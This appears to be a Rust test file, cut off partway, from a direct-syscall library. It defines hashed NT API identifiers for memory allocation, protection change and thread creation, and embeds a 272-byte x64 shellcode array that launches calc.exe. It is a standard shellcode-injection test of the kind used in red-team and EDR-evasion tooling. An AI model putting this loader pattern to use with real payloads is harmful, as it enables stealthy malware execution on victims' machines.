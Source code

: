 ### tests.rs
``` rust
#[cfg(test)]  
mod integration_tests {  
    use std::{mem, ptr};  
    use windows::Win32::Foundation::{FALSE, HANDLE};  
    use windows::Win32::System::Kernel::NULL64;  
    use windows::Win32::System::Memory::{MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READ, PAGE_READWRITE};  
    use syscalls::{prepare_syscall, run_direct_syscall};  
    use windows::Win32::System::Threading::{GetThreadId, THREAD_ALL_ACCESS};  
  
    const NT_ALLOCATE_VIRTUAL_MEMORY_CRC32: u32 = 0xe77460e0;  
    const NT_PROTECT_VIRTUAL_MEMORY_CRC32: u32 = 0x5e84b28c;  
    const NT_CREATE_THREAD_EX_CRC32: u32 = 0xe2083cd5;  
    const NT_WAIT_FOR_SINGLE_OBJECT_CRC32: u32 = 0x57c643ce;  
  
    // calc.exe  
    const PAYLOAD: [u8; 272] = [  
        0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,  
        0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,  
        0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,  
        0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,  
        0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,  
        0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,  
        0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,  
        0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,  
        0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,  
        0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,  
        0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,  
        0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,  
        0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,  
        0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,  
        0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,  
        0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,  
        0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00  
    ];  
  
    #[test]  
    fn test_direct_syscall() {  
  
        let mut p_address: *mut std::ffi::c_void = ptr::null_mut();  
        let mut s_payload: usize = mem::size_of_val(&PAYLOAD);  
        let old_protection: u32 = 0;  
  
        unsafe {  
```